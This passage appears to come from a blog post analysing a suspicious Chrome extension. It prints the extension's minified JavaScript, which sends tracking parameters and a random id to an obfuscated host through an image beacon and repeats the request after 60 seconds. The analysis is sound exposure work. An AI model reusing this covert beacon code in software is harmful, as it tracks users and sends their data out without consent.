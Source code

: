 ![](https://github.com/Spiderpig86/blog/raw/master/images/Extensions%20Google%20Chromes%20Soft%20Underbelly%20Part%202/ext2-pt2.PNG)

After about 60 seconds, another request is made to the same host. The same response headers are updated in local storage. A possible explanation for this is to have a backup in case the first request failed.

```js
function t(a) {
    var b = new Image,
        c = Math.random();
    c += 1, c > 2 ? b.src = ["https://www.google-analytics.com/_utm.gif?", m(), k(), l(), i(), n(), j(a), p()].join("").replace(/&$/, "") : b.src = ["https://", x[2], g(), q(), m()].concat(s([k(), l(), i(), n(), o(), j(a), p()])).join("").replace(/&$/, "")
}

/* ------------------------------------------------- */

// Separate IIFE
setTimeout(function() {
    t(b) // b the random id
}, 6e4)
```
